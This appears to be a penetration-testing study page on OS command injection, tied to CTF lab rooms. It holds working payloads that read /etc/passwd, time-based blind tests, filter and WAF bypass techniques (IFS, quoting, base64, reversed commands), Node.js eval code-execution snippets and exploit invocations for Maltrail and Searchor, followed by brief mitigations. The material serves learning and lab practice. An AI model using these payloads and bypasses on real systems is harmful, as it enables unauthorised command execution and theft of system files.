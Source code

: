 # Command injection

[![oscommandinjection](../../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![command_injection](../../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![ignite](../../../../_badges/thm-p/ignite.svg)](https://tryhackme.com/room/ignite)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![commandinjections](../../../../_badges/htb/commandinjections.svg)](https://academy.hackthebox.com/course/preview/command-injections)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![php_command_injection](../../../../_badges/rootme/web_server/php_command_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
[![node_eval](../../../../_badges/rootme/web_server/node_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Eval)

<div class="row row-cols-lg-2"><div>

A command injection occurs when a developer uses the user input in system commands without proper sanitization/measures.

For instance, a PHP website on Linux might use `grep`, `sed`, or other utilities instead of PHP functions for some operations:

```php!
$search = $_GET['q'];
$res = system("grep \"$search\" content/");
echo "<pre>$res</pre>";
```

With the following payload for `q`: `" -V; cat /etc/passwd #`, the command executed will be as follows, allowing us to steal /etc/passwd

```bash!
grep "" -V; cat /etc/passwd # content/
```
</div><div>

There are two kinds of command injections

* **Regular/in-band**: same channel to attack and gather results
* **Blind/out-band**: different channels to attack and gather results
    * Using redirections/flags, create a URL-accessible output file

```bash!
[...] cat /etc/passwd > /var/www/html/output.txt [...]
```

<ul>

* Using commands such as `sleep` to perform a time-based attack

</ul>

```bash!
[...] true && sleep 5 [...]
```
</div></div>

<hr class="sep-both">

## Basic Overview

<div class="row row-cols-lg-2"><div>

Assuming we have a list of vulnerable elements such as forms that may be vulnerable, we can try common characters:

* `;` — `%3B` — run two commands
* `\n` — `%0A` — run two commands
* `&&` — `%26%26` — executed if the previous ones succeed
* `||` — `%7C%7C` — executed if the previous ones failed
* `&` — `%26` — run two commands <small>(background previous)</small>
* `|` — `%7C` — run two commands  <small>(pipe previous one)</small>
* <code>&#96;&#96;</code> — `%60%60` — execute a command in another command
* `$()` — `%24%28%29` — execute a command in another command

You might try automated tools such as [commix](https://github.com/commixproject/commix) <small>(4.2k ⭐)</small>.
</div><div>

Assuming you found a vulnerable parameter, and are trying to exploit it, one of the main issues is [URL encoding](/tools-and-frameworks/knowledge/encoding/index.md#url-encoding---) the payload.

Always try to inject bit by bit using a boolean-based approach.

➡️ See also: [cire](https://github.com/quentinra/blog.quentinra.dev/cybersecurity/red-team/s3.exploitation/vulns/injection/tools/cire/README.md) <small>(Manual simple testing)</small>.
</div></div>

<hr class="sep-both">

## Bypass filters

[![bypass_bash_restrictions](../../../../_badges/hacktricks/bypass_bash_restrictions.svg)](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

<div class="row row-cols-lg-2"><div>

#### Character Filtering

[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)

By-pass **space** character filtering.

* Try using tabs (`%09`)
* Try using variables (`${IFS}`)
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

By-pass **slash** character filtering.

* Try using variables (`${PATH:0:1}`)
* Try using variables (`${HOME:0:1}`)
* Try using variables (`${PWD:0:1}`) -- best
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

➡️ See also: `printenv` or `env` to list exploitable variables.

#### Bypass using obfuscation

Remember that such payloads may contain filtered characters. See also tools such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```ps
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$ $(a="WhOaMi";printf %s "${a,,}")
$ # using base64
$ base64 <<< whoami
d2hvYW1pCg==
$ bash<<<$(base64 -d<<<d2hvYW1pCg==) # whoami
$ # using UTF-16 and base64
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
</div><div>

#### Command Filtering

[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)

Put pair of quotes/double quotes anywhere within the command

```ps
# available on Linux, Windows (PowerShell)
$ w'ho'ami ; w""hoam''i
```

* Put `\\` or `$@` anywhere within the command

```ps
# available on Linux
$ w\ho\am\i ; who$@ami
```

* Put `^` anywhere within the command

```ps
# available on Windows (CMD)
CMD> who^am^i
```

* Reverse commands

```ps
$ $(rev<<<'imaohw')
PS> iex "$('imaohw'[-1..-20] -join '')"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Mailtrail v0.53

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

[POC (python script)](https://github.com/spookier/Maltrail-v0.53-Exploit) <small>(0.03k ⭐)</small>.

```shell!
$ python3 exploit.py listener_ip listener_port URL
```

<br>

#### Searchor 2.4.2

[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)

[Poc (python script)](https://github.com/jonnyzar/POC-Searchor-2.4.2) <small>(0.01k ⭐)</small>.

```shell!
$ onectf request -u URL -X POST -d 'engine=Yahoo' -p query -i '<q>, exec(""))#'
```

You can execute python code inside `exec`.

<br>

#### PHP 'eval' function

[![php_eval](../../../../_badges/rootme/web_server/php_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

[Refer to HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#rce-via-eval) for the payloads. If the parameter is filtered, we can tried PHP specific by-passes such as [PHP octal](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#execute-php-without-letters).
</div><div>

#### Node.js 'eval' function

[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![node_eval](../../../../_badges/rootme/web_server/node_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Eval)

If the input is evaluated using eval, we can write some code  in it.

* Normal input: `5`
* Normal input wrapped: `(()=>{return 5})()`
* If it works, we can add some code in-between

```js!
(() => {
  try {
    return `Output: ${require('child_process').execSync('whoami').toString()}`
  } catch (error) {
    return `Error executing command: ${error}`
  }
})()
// without spaces
(()=>{try{return(`Output:${require('child_process').execSync('whoami').toString()}`)}catch(error){return(`Error:${error}`)}})()
```

It's not always possible to return a string, but if errors are returned, you may use them instead of the usual vector.

```js!
(()=>{throw new Error(require("child_process").execSync("whoami").toString())})()
res.end(require('fs').readdirSync('.').toString())
res.end(require('fs').readFileSync('file').toString())
```
</div></div>

<hr class="sep-both">

## Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* Avoid using uncontrolled input in system commands. Always validate and filter user input.

* Use web server engine functions instead of system functions

* Use a WAF or a similar tool
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Windows Slash (`$env:HOMEPATH[0]`)
</div><div>
</div></div>
